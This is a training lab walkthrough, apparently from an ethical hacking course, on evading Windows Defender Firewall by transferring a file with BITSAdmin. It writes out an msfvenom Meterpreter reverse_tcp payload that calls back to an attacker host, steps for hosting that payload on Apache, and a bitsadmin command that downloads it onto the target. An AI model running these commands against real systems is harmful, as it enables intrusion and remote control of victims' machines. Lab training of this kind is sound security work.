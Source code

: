 Here, we will use BITSAdmin to bypass firewall and transfer malicious file into the target machine.
	1. Click Windows Server 2019 to switch to the Windows Server 2019 machine and launch Control Panel, as shown in the screenshot.
	
	2. The Control Panel window appears, click System and Security. In System and Security window select Windows Defender Firewall.
	
	3. The Windows Defender Firewall control panel appears; click the Turn Windows Defender Firewall on or off link in the left pane.
	
	4. The Customize Settings window appears.
	5. Select Turn on Windows Defender Firewall under Private network settings and Public network settings.
	6. Click OK.
	
	7. Click Parrot Security to switch to the Parrot Security machine.
	8. Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.
If a Question pop-up window appears asking you to update the machine, click No to close the window.
	
	9. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	10. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	
	11. In the terminal window, type msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Exploit.exe and press Enter, to create the payload.
	
	12. Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from /home/attacker to the shared location using the below commands:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	• Copy the malicious file to the shared location by typing cp /home/attacker/Exploit.exe /var/www/html/share and pressing Enter
	
	13. Now, start the Apache service. To do this, type service apache2 start and press Enter.
	
	14. Click Windows Server 2019 to switch to Windows Server 2019 machine.
	15. In the Type here to search field of the Desktop, type powershell and click Windows PowerShell to launch a PowerShell.
	
	16. In the PowerShell window, type bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe and press Enter.
	
	17. BITSAdmin transfers the file, as shown in the screenshot.
	
	18. Open File Explorer and Navigate to C: drive, you can see that the malicious file is successfully transferred.
	
	19. After transferring the malicious file the attacker can use this malicious file for gaining access, escalating privileges and to perform various malicious other activities.
	20. This concludes the demonstration of bypassing firewall through Windows BITSAdmin.
	21. Close all open windows and document all acquired information.
PreviousNext

From <https://labclient.labondemand.com/Instructions/3676fd54-df0e-4076-a257-b27d352c7496?showWhenStarting=1> 


![image](https://github.com/user-attachments/assets/b77e24c2-e68b-4b56-86bb-bb0adb1ddc08)
